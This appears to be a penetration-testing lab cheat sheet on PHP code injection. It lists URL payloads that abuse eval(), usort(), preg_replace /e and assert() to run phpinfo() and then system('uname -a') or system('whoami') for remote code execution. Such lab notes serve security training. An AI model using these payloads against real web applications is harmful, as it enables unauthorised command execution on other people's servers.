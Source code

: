 ##Code Injection
Code Injection is the general term for attack types which consist of injecting code that is then interpreted/executed by the application. This type of attack exploits poor handling of untrusted data. These types of attacks are usually made possible due to a lack of proper input/output data validation

<h3>Web for Penterster</h3> 
<h3>example 1</h3> 
<b>eval()</b> - evaluates a string as PHP code <br>
<b>payload</b>- " .phpinfo(). "  <br>
<b>payload</b>- " . hacker".system('uname -a');#       - change to RCE  & url encode need 


<h3>example 2</h3> 
<b>usort()</b>- Sort an array by values using a user-defined comparison function<br>
<b>payload</b>-example2.php?order=id,system('whoami') <br>
<b>payload</b>- example2.php?order=id);}system('whoami');#      - change to RCE  & url encode need 


<h3>example 3</h3> 
<b>preg_replace()</b> — Perform a regular expression search and replace<br>
<b>payload</b> - example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello lamer"  <br>
<b>payload</b> - example3.php?new=system('uname -a')&pattern=/lamer/e&base=Hello lamer         - change to RCE


<h3>example 4</h3> 
<b>assert()</b> - Checks if assertion is FALSE <br>
<b>payload</b> - example4.php?name=hacker'.phpinfo().' <br>
<b>payload</b> - example4.php?name=hacker'.system('uname -a').'
